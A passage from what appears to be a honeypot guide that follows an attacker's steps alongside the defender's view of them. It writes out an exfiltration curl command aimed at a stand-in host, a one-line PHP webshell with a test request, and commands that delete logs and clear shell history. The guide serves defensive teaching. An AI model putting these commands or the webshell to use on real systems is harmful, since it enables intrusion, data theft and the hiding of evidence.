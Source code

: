 **Attacker gets excited**: "Jackpot! I have access to all user data!"

**Attacker starts exfiltrating**:
```bash
curl -X POST https://attacker-dropbox.com/upload \
  -d @stolen_users.json
```

**Attacker thinks**: "Data exfiltration successful. Mission complete."

**Reality**:
- "Stolen" data is all fake (honey user accounts)
- Attacker's dropbox URL captured: `attacker-dropbox.com`
- That domain is now blocked on your firewall
- Attacker wasted time stealing worthless fake data
- Their entire infrastructure is now compromised (you know their dropbox)

### Stage 7: The Persistence Attempt (Attacker Thinks They're Securing Access)

**Attacker wants**: To maintain access for future attacks

**Uploads backdoor**: `maintenance.php`
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

**Tests backdoor**:
```bash
curl "https://honeypot.example.com/maintenance.php?cmd=whoami"
```

**Response**:
```
www-data
```

**Attacker thinks**: "Excellent. I have persistent shell access. I can come back anytime."

**Reality**:
- Webshell code captured and analyzed
- Added to malware signature database
- Production servers are now scanning for this exact backdoor
- Attacker's access is to a **sandboxed VM that resets every 24 hours**
- When they return tomorrow, their backdoor will be gone (VM rebuilt)

### Stage 8: The Exit (Attacker Thinks They Got Away Clean)

**Attacker covers tracks** (or so they think):
```bash
# Delete logs
rm /var/log/apache2/access.log

# Clear bash history  
history -c
```
